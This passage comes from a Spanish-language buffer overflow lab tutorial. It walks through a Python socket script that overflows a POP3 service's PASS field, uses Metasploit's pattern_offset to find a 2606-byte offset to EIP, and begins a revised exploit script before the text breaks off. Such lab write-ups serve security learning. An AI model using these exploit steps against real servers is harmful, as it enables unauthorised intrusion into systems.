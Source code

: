 ```bash
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + payload + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

Al enviar estos datos, el programa crasheó y se puede ver que el EIP se sobrescribió con una cadena de caracteres específica en hexadecimal: 39694438.

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 8.png)

Lo que hay que hacer es tomar esta cadena de caracteres y pasárselo a un módulo de metasploit llamado “pattern_offset.rb”:

```bash
/usr/share/metasploit-framework/
tools/exploit/pattern_offset.rb -q 0x39694438
```

Esto devolverá el offset o la cantidad de caracteres que hay que enviar antes de encontrase con esa cadena de caracteres proporcionada, en otras palabras, devolverá la cantidad de caracteres que hay que ingresar antes de sobrescribir el EIP.

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 9.png)

Ahora que se sabe el offset, hay que modificar el script para que envíe 2606 “A” más una cadena de caracteres específica para modificar el EIP y comprobar que el offset es correcto:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
```